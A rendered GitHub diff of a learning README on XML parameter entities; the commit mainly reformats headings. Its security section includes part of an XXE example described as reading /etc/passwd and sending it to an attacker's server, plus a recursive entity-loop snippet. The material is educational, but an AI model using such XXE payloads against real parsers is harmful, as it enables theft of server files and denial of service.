

Before and after one commit to anilarelli/Learning, a Markdown page: README.md, the part around one of its changes. Shown at 94% size. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -1,24 +1,25 @@
-# Learning
+# XXE Indepth
 
 
 Parameter entities in XML are used within DTDs (Document Type Definitions) and are different from general entities, which are used in the XML content itself. Parameter entities are primarily used for defining reusable content or DTD fragments and help in structuring DTDs in a modular way.
 
 
-What Are Parameter Entities?
+## What Are Parameter Entities?
+
 Parameter entities are declared with a % character, followed by the entity name, and are used in DTDs (not in the XML document body).
 They are typically employed to include reusable DTD fragments or configuration within the DTD.
 To reference a parameter entity, you need to use %entityName; inside the DTD.
 
-Syntax for Declaring Parameter Entities
+### Syntax for Declaring Parameter Entities
 
 
 <!ENTITY % entityName "replacement text or value">
 
 %entityName; will be replaced with "replacement text or value" wherever it is referenced in the DTD.
 
-Examples of Parameter Entities
+#### Examples of Parameter Entities
 
-1. Basic Parameter Entity Usage
+##### 1. Basic Parameter Entity Usage
 
 <!DOCTYPE root [
    <!ENTITY % greeting "Hello, World!">
@@ -41,15 +42,15 @@ To use the parameter entity, you need to declare an additional general entity:
 
 Here, myGreeting is a general entity that uses the value of the parameter entity %greeting.
 
-2. Including an External DTD Using Parameter Entities
+##### 2. Including an External DTD Using Parameter Entities
 You can use parameter entities to include external DTDs, making the DTD modular and easier to maintain.
 
 
-External DTD (common.dtd):
+##### External DTD (common.dtd):
 
 <!ENTITY % commonElements "<!ELEMENT greeting (#PCDATA)>">
 
-Main XML File:
+##### Main XML File:
 
 <!DOCTYPE root [
    <!ENTITY % common SYSTEM "http://example.com/common.dtd">
@@ -65,7 +66,7 @@ The parameter entity %common references an external DTD file located at http://e
 %commonElements; is used to insert the content from the external DTD (in this case, an element declaration).
 
 
-3. Conditional DTD Sections Using Parameter Entities
+##### 3. Conditional DTD Sections Using Parameter Entities
 Parameter entities can be used to include or exclude parts of a DTD based on conditional sections.
 
 <!DOCTYPE root [
@@ -83,8 +84,9 @@ In this example:
 The %includeGreeting parameter entity determines whether the greeting element is included.
 The conditional section <![%includeGreeting;[ ... ]]> is included because %includeGreeting is set to "INCLUDE".
 
-Security Implications of Parameter Entities
-XML External Entity (XXE) Attacks
+##Security Implications of Parameter Entities
+
+1. #### XML External Entity (XXE) Attacks
 
 Parameter entities can be used to reference external files or resources, leading to XXE vulnerabilities if the XML parser is not configured securely
 
@@ -96,10 +98,11 @@ Parameter entities can be used to reference external files or resources, leading
 <root>&exfil;</root>
 In this XXE example, an external file (/etc/passwd) is accessed and sent to an attacker's server.
 
-Entity Reference Loops Defining parameter entities that reference each other in a circular manner can cause infinite loops:
+2. #### Entity Reference Loops
+   Defining parameter entities that reference each other in a circular manner can cause infinite loops:
 
 <!ENTITY % loop "%loop;">
 This will trigger a "detected an entity reference loop" error in most XML parsers.
 
-Differences Between Parameter Entities and General Entities
+## Differences Between Parameter Entities and General Entities
 
```
Also changed, not shown: other parts of README.md (+7 -16 lines).
